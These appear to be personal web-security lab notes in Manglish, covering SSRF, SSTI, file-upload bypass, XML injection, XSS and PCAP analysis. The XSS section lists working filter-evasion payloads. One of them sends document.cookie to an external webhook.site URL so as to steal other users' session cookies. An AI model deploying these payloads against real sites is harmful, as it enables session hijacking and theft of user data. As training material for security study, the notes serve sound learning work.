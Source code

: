 1) SSRF->ssrf chyumbol url=https://something/hacker.txt undakum.so first https ennath http aakit send chyth nokuka ok.ini something ennathin shehsam or dot itt nokuka.ie something./hacker.txt.so ingane suffix koduthit dot in shesham namal control chyuna url koduth nokuka ie,something.google.com:443/hacker.txt.  angane enthengilum oke nokuka ok(lab03)

1) SSTI->oru website 404 error engane handle chyunu enn nokaanm.athin enthengilum oru path itt kodukanam.enit namal kodutha aa path reflect chyunenengil avide SSTI,XSS oke try chyanam.ivide http://url/test{{4-1}}  enn kodukumbol pageil test3 enn kanikunu.so SSTI und
2) url paramter il name={{2-1}}  enn itt kodukuka.apol 1 enn kanichal SSTI unden artham ok. so `{{_self}}` enn koduth nokuka.apol error varum.eth template aanenum chelapo kanichakum ok

1) FILE UPLOAD->oru php file undaki ath upload chyan patunundon nokanam ok
2) .php file upload chyan patunilengil .php3 or .php5 ennoke itt upload chyan nokuka ok

1) XML->eth exploit chyumbozhum & ine url encode chyanam.illengil server ath oru seperator aayi aan kanuka
2) POST request il mathramala GET requst ile paramter il um xml attack try chyth nokam

1) XSS->`<a href='javascript:alert(1)...'`
2) `<img src=x onerror="alert(0) > </img>"`
3) `<script>ale%2brt(9)</script>`  idumbol enthan sambavikunath enn nokuka ok
4) `<script>eval("al"%2b"ert(9)")</script>`  itt nokinok chelapo xss pop aakum. %2b means + . ivide browser il + ital aakila ok
5) `<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>`  ith itt nokuka
6) paramter il thane namuk var $a="  oke koduth aa script break aakathe extra js add chyan patujnundon nokanam(lab06)
7) php il htmlentities idumbol ath default aayi single qoute encode chyilan thonunu `" , < , >`  ith moonum engande default aayi encode chyun thonunu
8) xss check chyumbl ella charactersum aakunundon nokanam ok
9) ==namal url paramter il `"<>'`  oke italum pageil ath athupoel thane aayirikum reflect chythitundavuka. enum vech athil xss kanamenonumila.so view-source adich nokuka.apol aa characters source page ilum encode chyandirikukayanengil mathram xss in vendi nokiyal mathi oke==
10) website url il /index.php   enn ullidath aadyam enthenilum kodukuka ie, /index.phpslfjslf  apol 404 error enthayalum varum.ennal /index.php kk shesham oru slash itti enthengilum koduthal chelapo error varnamenila.so ath nokanam(lab08).prathyekich form oke filll chythit send chyuna page il oke ok
11) namal xss oke test chyumbol payload koduthit just inspector->console il poi nokuka.apol namal koduth xss enthenglum error vaengil console il kannan patum
12) `<script>document.write('<img src="http://webhook.site/151c86e1-5f18-4983-8c0f-1d615a66f90a?c='%2bdocument.cookie%2b'" />')</script>`   src yil namal control chyuna domain kodukanam.apol namuk mattullavarude cookie kitum ok
13) `<img src=x onerror=alert(9)>`   akunilengil namuk img in shesham slash idam(means space illathaakan aan slash idunath) apol xss trigger ayekam ie, `<img/src=x onerror=alert(9)>`   ini attributes ilum namuk slash idam but angane idumbol attributes value double qoutes il idanam ie, `<img/src="x"/onerror=alert(9)>` . pine already qotes use chyunundengil space or / idanam ennupolum illa ok.`<img\nsrc=...`  ingane ittalum xss work aakum


# PCAP
1) oru connection undakunath kanikunathan [SYN] , [SYN, ACK]  and [ACK] . syn ennath client server in ayakunath. syn ack ennath server client in response ayakunathan.athayath ok enn kanikan. ack ennath client server in ok enn kanikan ayakunath.so ith moonum aayal connection establish aayi ennartham. athin shesham [PSH, ACK]  ennal namal namuk venda karyangal server ilek push chyunu.athayath enth data aano send chyendath ath send chyunu ennartham.so server athin [ACK]  enn respones tharunu.so venda data kiti kazhinjal server thane connection close aakum.so athin  [FIN, ACK]   enn server message ayakum apol client [FIN, ACK]  enn thirich response idum apol server [ACK] enn response kodukum.angane connection close aayi ennartham ok
2) oru packet analyse chyumbol red colour kanunath client server in ayakuna data aan.Blue colour ennath server client in ayakuna data aan ok
3) Connecting with FTP without TLS is insecure as anyone who can see the traffic, or access a packet capture of the connection is able to see the username and password used as well as all the files retrieved by the user.
4) kore traffic undengil client passive mod ilek pokunundon nokanam. pokunundnegil aa mode ilek pokan use chytha ip nokanam.enit namal tcp connections mati mati nokiyal aa ip inte tcp connectin kanum.apol avide vech namuk vendath chelapo kitiyekam ok
5) port vech search chyan->`tcp.port==[port]` kodukuka.apol aa port ilek poya packets mathram kanikum ok
6) website mathramala ie,http/https  ver pala protocols um tcp thaneyan comunication vendi use chyunath
